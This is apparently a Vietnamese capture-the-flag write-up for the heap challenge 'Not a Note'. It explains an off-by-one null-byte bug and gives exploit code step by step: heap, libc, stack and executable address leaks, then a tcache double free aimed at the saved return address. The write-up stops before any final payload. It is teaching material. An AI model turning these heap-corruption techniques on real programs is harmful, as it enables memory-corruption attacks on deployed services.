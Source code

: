# Not a Note

```
Points: 964

Description:
I created a note keeper and I'm going to deploy to the public world but not sure if it's safe to protect my server, could you give it a try to see if it's vulnerable or not?

Thanks in advanced!
nc 103.162.14.116 10001
```

# Vừa phân tích vừa khai thác

## Chuẩn bị

```python
def create(idx, title_size, title, content_size, content):
    sla(b"> ", b"1")
    sla(b"Index: ", str(idx).encode())
    sla(b"Title size: ", str(title_size).encode())
    sla(b"Title: ", title)
    sla(b"Content size: ", str(content_size).encode())
    sla(b"Content: ", content)


def edit(idx, option, title):
    sla(b"> ", b"2")
    sla(b"Index: ", str(idx).encode())
    sla(b"> ", str(option))
    if option == 1:
        sla(b"New title: ", title)
    else:
        sla(b"Content size:")
    sla(b"> ", str(3))


def show(idx):
    sla(b"> ", b"3")
    sla(b"Index: ", str(idx).encode())
    p.recvuntil(b"Content: ")
    return u64(p.recvline(keepends=False).ljust(8, b"\0"))


def delete(idx):
    sla(b"> ", b"4")
    sla(b"Index: ", str(idx).encode())
```

## Tìm bug

- Chương trình cho ta title và context, trong đó title sẽ chứa địa chỉ context chunk
- Có off-by-one nullbyte vào địa chỉ context chunk khi ta edit title
  ![Alt text](./bin/image.png)
- Khi này giả sử ở địa chỉ 0x..1200 là một địa chỉ heap hoặc libc, ta hoàn toàn có thể leak, việc bây giờ ta cần setup sao sau khi off-by-one context chunk, 0x..1200 có dữ liệu là heap, libc
  ![Alt text](./bin/a.png)

## Leak heap

- Vì đây chỉ là setup nên không có quá nhiều điều gì để nói

```python
create(0, 0x50, b"title", 0x50, b"content")
create(1, 0x10, b"title", 0x30, b"content")

delete(0)
edit(1, 1, b"a" * 0x10)
heap = show(1) << 12
info("Heap: " + hex(heap))
```

## Leak libc

- Mình fill tcache để free những lần sau sẽ vào unsorted bin

```python
size = 0x120
create(2, size, b"title", size, b"content")
create(3, size, b"title", size, b"content")
create(4, size, b"title", size, b"content")
create(5, 0xA0 - 0x10, b".", 0x90 - 0x10, b".")
create(6, size, b"title", size, b"content")
create(7, size, b"title", size, b"content")
create(0, 0x10, b"title", 0x30, b"a")

delete(2)
delete(3)
delete(4)
delete(5)
delete(6)
delete(7)
```

- Khi này libc address không ở đúng địa chỉ mình cần leak nên mình phải malloc thêm
  ![Alt text](./bin/image-1.png)

```python
create(2, 0x1A0 - 0x40, b"title", 0x10, b"content")
edit(0, 1, b"a" * 0x10)
libc.address = show(0) - 0x1F6CE0
info("Libc: " + hex(libc.address))
```

## Leak stack & leak exe

- Mình tiếp tục setup để leak stack, tuy nhiên lần này khá khó và mất khá nhiều thời gian
- Đầu tiên mình tính tcache-dup, sau khi dbf xong thì mình nhận ra khi mình malloc environ ra thì bị ghi đè null byte
- Do vậy mình sẽ overlap chunk, tuy nhiên mình lại 1 lần mất thời gian khi overlap chunk 1 lúc khá nhiều chunk và mình đã ghi đè cả size của chunk title, điều đó khiến khi show nó sẽ dựa vào size của chunk title để nhảy đến địa chỉ chỉ context.
- Mình đã đi lại và có ý tưởng sau
  ![Alt text](./bin/image-2.png)

```python
create(3, 0xF0, b"a", 0x20, b"a")
create(4, 0xC0, b"a", 0x120, b"a")
create(5, 0x50, b"a", 0x50, b"a")
create(6, 0xF0, b"a" * 0xC8 + p64(0x61), 0x20, b"a")
create(7, 0x10, b"a", 0x10, b"a")
edit(7, 1, b"a" * 0x10)
delete(1) # lấy chỗ để malloc
delete(7)
# fake chunk size 0x60 đã được free
```

- Bây giờ mình ghi đè context addr thành environ và edit để ghi stack chứa địa chỉ main
  ![Alt text](./bin/image-3.png)

```python
create(1, 0x50, b"b" * 8 * 4 + p64(libc.sym.environ), 0x20, b"cc")
stack = show(6)
info("stack: " + hex(stack))
info("ret in stack: " + hex(stack - 0x78))
edit(1, 1, b"a" * 8 * 4 + p64(stack - 0x78))
exe.address = show(6) - exe.sym.main
info("exe base: " + hex(exe.address))
create(7, 0xC0, b"a", 0xC0, b"a")
target = stack - 0x128
```

## DBF

- Sau khi mình check lại note thì mình thấy chunk 0 và chunk 4 có thể dbf được
- Mình dbf để có thể ghi đè saved rip, ở đây mình chọn khi ret của main vì khi option 5, không có exit
  ![Alt text](./bin/image-4.png)

```python
delete(7) # tăng count
delete(0)
delete(4)
create(0, 0xC0, p64(target ^ (heap + 0x1000) >> 12), 0xC0, b"a")
create(4,0x10, b'a' , 0xc0, b'a'*8+p64(exe.sym.read_function+5))
```
